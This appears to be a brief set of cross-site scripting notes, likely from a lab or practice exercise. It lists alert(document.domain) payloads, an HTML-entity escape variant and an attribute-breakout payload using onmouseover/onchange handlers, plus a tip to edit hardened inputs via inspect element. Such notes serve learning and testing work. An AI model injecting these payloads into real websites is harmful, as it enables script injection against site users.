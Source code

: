 <script>alert(document.domain);</script>

**SOMETIMES AN INPUT BOX IS HARDENED, IN THIS CASE TRY TO INSPECT ELEMENTS AND EDIT OPTIONS!!**

sometimes the first character needs to be escaped to html EG:

    &#34> <script>alert(document.domain);</script>

When you cant "<" and ">", use events such as mouse over / onChange

aaa" onmouseover="alert(document.domain); //here we satisy what should be in input box, close with quote, specify another value and its event
successfully injected string as below:
    <input type="text" name="p1" size="50" value="aaa" onchange="alert(document.domain);">

